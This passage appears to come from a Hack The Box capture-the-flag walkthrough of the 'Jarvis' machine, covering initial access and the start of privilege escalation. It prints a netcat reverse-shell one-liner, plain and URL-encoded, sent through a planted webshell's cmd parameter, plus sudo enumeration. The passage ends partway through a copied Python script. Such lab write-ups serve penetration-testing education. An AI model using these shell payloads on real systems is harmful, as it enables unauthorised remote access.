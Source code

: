 ```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 7500 >/tmp/f
```

To feed it to the web however, we should URL-encode it.

```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.15+7500+>/tmp/f
```

We'll also need a listener, which can be opened with `nc -lvnp 7500`.

Now we just feed the encoded string to the `cmd` parameter on the webshell.

![](/assets/htb-jarvis/initial_shell.png)

---

## Privilege Escalation

### Reading sudoers file

As always, one of our first enumeration steps should be to run `sudo -l` to see if the current user has any `sudo` permissions.

![](/assets/htb-jarvis/sudoers_wwwdata.png)

In this case, it seems we can run a python script called `simpler.py` as user `pepper`. If we navigate to the `/var/www/Admin-Utilities` directory, our command to run the program would be `sudo -u pepper ./simpler.py`.

### Exploiting `simpler.py`

We can copy `simpler.py` to our local machine, and see what it does.

```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
```
